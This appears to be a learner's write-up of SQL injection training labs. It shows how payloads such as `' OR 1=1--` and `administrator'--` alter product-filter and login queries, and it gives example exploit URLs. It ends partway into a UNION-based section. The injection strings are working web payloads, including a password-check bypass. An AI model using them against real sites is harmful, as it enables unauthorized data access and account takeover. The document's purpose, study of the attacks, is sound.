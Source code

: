  
## SQL Injection 1
### Analysis
#### Original Query:

```sql
SELECT * FROM products WHERE category = 'Gifts' AND released = 1`
```

-  This query selects all products from the `products` table where the `category` is 'Gifts' and the product is `released`.

---
#### Injected Query 1:

```sql
SELECT * FROM products WHERE category = 'Gifts' --' AND released = 1
```

- The `--` sequence is used to comment out the rest of the SQL query.
- The `AND released = 1` part is ignored, potentially displaying all products in the 'Gifts' category, regardless of their release status.

---
#### Injected Query 2:

```sql
SELECT * FROM products WHERE category = 'Gifts' OR 1=1 --' AND released = 1
```

- The condition `OR 1=1` is always true.
- Since `1=1` is always true, the query returns all products, not just those in the 'Gifts' category or those that are released.

---
### Example of Exploit
```
https://0a9e009b03fe6a7d80663a5b004a0029.web-security-academy.net/filter?category=Gift%27+OR+1=1--
```
- Explanation: Injects `Gift' OR 1=1--` into the `category` parameter, making the query always true and returning all products.

---

## SQL Injection 2

### Analysis
#### Original Query:
```sql
SELECT firstname FROM users WHERE username='admin' AND password='admin'
```
- **Description:** Retrieves the `firstname` of the user with `username='admin'` and `password='admin'`.

---
#### Injected Query 1:
```sql
SELECT firstname FROM users WHERE username='' AND password='admin'
```
- **Explanation:** Checks for a user with an empty username. Likely returns no results.

---
#### Injected Query 2:
```sql
SELECT firstname FROM users WHERE username='admin'--' AND password='admin'
```
- **Explanation:** The `--` sequence comments out the rest of the query, effectively checking only for `username='admin'`. Bypasses the password check.

---
#### Injected Query 3:
```sql
SELECT firstname FROM users WHERE username='administrator'--' AND password='admin'
```
- **Explanation:** Similar to Injected Query 2 but uses 'administrator' as the username. If 'administrator' is valid, it bypasses the password check and returns the `firstname`

---
### Example of Exploit

- **Vulnerable URL:**
```
https://example.com/login?username=administrator'--&password=admin
```
- **Explanation:** The payload `administrator'--` in the username parameter bypasses the password check, returning the `firstname` of 'administrator'.

---

## SQL Injection 3
### Analysis
#### Background (Union):

### Table 1
| a | b |
|---|---|
| 1 | 2 |
| 3 | 4 |

### Table 2
| c   | d   |
| --- | --- |
| 2   | 3   |
| 4   | 5   |



#### Original Query:
